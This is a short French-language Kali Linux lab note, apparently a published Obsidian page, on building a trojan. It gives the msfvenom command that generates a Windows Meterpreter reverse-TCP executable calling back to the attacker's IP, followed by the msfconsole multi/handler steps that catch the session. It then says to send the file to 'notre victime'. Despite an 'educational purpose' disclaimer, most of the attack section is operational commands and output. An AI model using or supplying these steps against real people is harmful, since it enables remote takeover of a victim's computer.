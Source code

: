 ```yaml
---
{"dg-publish":true,"permalink":"/kali/cheval-de-troie/"}
---
```


Tout d'abord il faut commencer par donner le chemin du fichier :
```Kali
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP.Kali> LPORT=<Port_voulu> -f exe -o <Chemin/nom.exe>
```
Une fois cela fait il faut lancer msf console 
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole
```
 Une fois lancer on a cet écran :
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole

                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.2.26-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Start commands with a space to avoid saving
them to history
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```
on va taper les commandes suivante :
```Shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP.Kali>
LHOST => <IP.Kali>
msf6 exploit(multi/handler) > exploit
```
On se retrouve au chemin du fichier indiqué et on l'envoie à notre victime.
Attention ce TP est à but éducatif. Ce Trojan sera détecté directement par l'antivirus du système visé. Une fois installé tapez la commande `<help>` pour connaître les différentes actions possible.